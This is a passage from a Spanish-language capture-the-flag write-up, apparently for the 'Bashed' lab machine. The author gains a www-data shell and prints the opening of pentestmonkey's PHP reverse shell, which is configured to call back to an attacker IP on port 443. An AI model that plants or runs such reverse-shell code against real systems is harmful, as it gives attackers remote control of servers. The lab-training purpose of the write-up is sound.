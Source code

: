 ```bash
www-data@bashed
:/var/www/html/uploads# ls

hola
index.html
```
Me dejo subir cosas por lo que ya tenia una idea de que subir. Intente subir el tipico archivo php de pentest monkey que nos envia una shell a nuestra maquina.
```bash
cat reverse.php 
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.42';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
```